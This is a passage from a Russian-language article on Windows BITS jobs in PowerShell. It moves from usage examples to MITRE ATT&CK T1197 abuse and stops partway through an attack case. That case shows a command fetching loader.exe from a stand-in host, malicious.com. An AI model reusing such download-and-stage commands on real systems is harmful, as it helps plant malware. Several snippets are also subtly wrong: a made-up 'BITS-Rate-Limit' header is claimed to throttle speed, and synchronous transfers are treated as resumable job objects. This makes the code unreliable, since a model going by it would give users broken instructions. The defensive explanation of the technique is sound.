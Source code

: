 #### Пример 4: Ограничение скорости передачи для больших файлов

```powershell
# Создание задания с ограничением скорости
$job = Start-BitsTransfer -Source "https://example.com/largefile.zip" -Destination "C:\Downloads\largefile.zip"
$job.SetCustomHeaders("BITS-Rate-Limit: 1048576") # Ограничение скорости до 1 МБ/сек
$job.Resume()
Write-Host "Задание с ограничением скорости создано."
```

#### Пример 5: Автоматическое удаление задания после завершения

```powershell
# Создание задания для загрузки файла
$job = Start-BitsTransfer -Source "https://example.com/tempfile.zip" -Destination "C:\Temp\tempfile.zip"

# Удаление задания после завершения
Register-ObjectEvent -InputObject $job -EventName JobTransferred -Action {
    Remove-BitsTransfer -BitsJob $job
    Write-Host "Задание удалено после завершения."
}
$job.Resume()
```

# Злоупотребление BITS Jobs

Техника [T1197](https://attack.mitre.org/techniques/T1197/) из MITRE ATT&CK описывает использование BITS Jobs для выполнения вредоносного кода. Злоумышленники могут создавать задания BITS для загрузки и выполнения вредоносных файлов, а также для обеспечения устойчивости атак. Эта техника особенно опасна, так как BITS работает в фоновом режиме и использует системные процессы, что затрудняет её обнаружение.


## Кейсы реальных атак

### Пример 1: Многоэтапная атака с использованием BITS для загрузки и выполнения вредоносного ПО

**Шаги злоумышленников:**

1. **Создание задания для загрузки вредоносного загрузчика**:  
   Злоумышленник создаёт задание BITS для загрузки небольшого загрузчика, который затем скачивает основной вредоносный файл.

   ```powershell
   # Загрузка загрузчика
   $job = Start-BitsTransfer -Source "https://malicious.com/loader.exe" -Destination "C:\Temp\loader.exe"
   $job.Resume()
   ```

